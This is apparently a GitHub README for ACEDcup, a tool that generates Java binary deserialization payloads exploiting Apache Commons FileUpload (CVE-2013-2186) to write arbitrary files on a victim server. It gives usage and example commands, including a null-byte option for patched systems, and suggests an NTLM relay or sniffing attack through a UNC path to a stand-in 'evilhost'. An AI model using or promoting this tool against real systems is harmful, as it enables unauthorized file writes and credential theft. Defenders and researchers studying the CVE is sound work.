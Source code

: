 # ACEDcup

ACEDcup tool is a payload generator for Java Binary Deserialization attack (ACED)

For Apache Commons FileUpload ver <= 1.3 (CVE-2013-2186) and Oracle JDK ver < 7u40

The attack works even for newer versions of the lib or Java. We can upload any content in any directory, but 
we cannot control a file name in this situation. Hovewer, it may be useful in some cases. 

Also we can perform aNTLM-relay/sniffing attack (using \\\\evilhost\\any\\path) if your target is on Windows OS.

## Usage
```
  java -jar aced_cup.jar /path/payload /path/target /path/out 1
  
  /path/payload - a path to a file with your payload
  /path/target - a path to a file that will be created in your victim
  /path/out - a path to a file with serialized payload
  0 - turn off null-byte ending if you attack a patched system (with null by default)
```
## Example

 ```java -jar aced_cup.jar D:\\cup_exploit\\payload.txt /home/user/test/any_name.txt D:\\cup_exploit\\emp1.ser```

